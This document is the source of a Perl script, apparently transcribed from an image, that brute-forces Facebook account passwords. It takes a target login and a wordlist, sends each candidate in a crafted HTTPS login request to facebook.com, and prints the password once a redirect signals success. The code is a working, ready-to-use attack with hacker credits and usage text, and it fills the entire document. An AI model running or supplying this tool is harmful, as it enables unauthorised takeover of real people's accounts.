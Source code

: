 
use strict;

use Net::SSLeay::Handle;


if(!defined($ARGV[0] && $ARGV[1])) {


system('clear');

print "\n+++ Facebook password \n";

print "+++ Coded by Imad'Ox-Hunter\n";

print "+++ www.fb.com/imad.elouajib\n\n";

print "+++ Usage: perl $0 login wordlist\n\n";

exit; }


my $user = $ARGV[0];

my $wordlist = $ARGV[1];


open (LIST, $wordlist) || die "\n[-] No Wordlist On $wordlist -_- \n";


print "\n+++ ျမန္မာ\n";

print "+++ Coded by myanmarhacker\n";

print "+++ www.fb.com/zawlwinoo.zawlwinoo.123123\n";

print "\n[+] စျပီ $user ...\n\n";


while (my $password = <LIST>) {

chomp ($password);

$password =~ s/([^^A-Za-z0-9\-_.!~*'()])/ sprintf "%%%0x", ord $1 /eg;


my $a = "POST /login.php HTTP/1.1";

my $b = "Host: www.facebook.com";

my $c = "Connection: close";

my $e = "Cache-Control: max-age=0";

my $f = "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8";

my $g = "Origin: https://www.facebook.com";

my $h = "User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.31 (KHTML, like Gecko) Chrome/26.0.1410.63 Safari/537.31";

my $i = "Content-Type: application/x-www-form-urlencoded";

my $j = "Accept-Encoding: gzip,deflate,sdch";

my $k = "Accept-Language: en-US,en;q=0.8";

my $l = "Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.3";


my $cookie = "cookie: datr=80ZzUfKqDOjwL8pauwqMjHTa";

my $post = "lsd=AVpD2t1f&display=&enable_profile_selector=&legacy_return=1&next=&profile_selector_ids=&trynum=1&timezone=300&lgnrnd=031110_Euoh&lgnjs=1366193470&email=$user&pass=$password&default_persistent=0&login=Log+In";

my $cl = length($post);

my $d = "Content-Length: $cl";



my ($host, $port) = ("www.facebook.com", 443);


tie(*SSL, "Net::SSLeay::Handle", $host, $port);

  


print SSL "$a\n";

print SSL "$b\n";

print SSL "$c\n";

print SSL "$d\n";

print SSL "$e\n";

print SSL "$f\n";

print SSL "$g\n";

print SSL "$h\n";

print SSL "$i\n";

print SSL "$j\n";

print SSL "$k\n";

print SSL "$l\n";

print SSL "$cookie\n\n";


print SSL "$post\n";


my $ျပီးျပီ;

while(my $result = <SSL>){

if($result =~ /Location(.*?)/){

$ျပီးျပီ = $1;

}

}

if (!defined $ျပီးျပီ)

{

print "[-] $password -> မဟုတ္ေသးဘူး :( \n";

close SSL;

}

else

{

print "\n########################################################\n";

print "[+] Yuuup!!ေတြ႕ျပီ=> Password က $password :D\n";

print "########################################################\n\n";

close SSL;

exit;

}

}
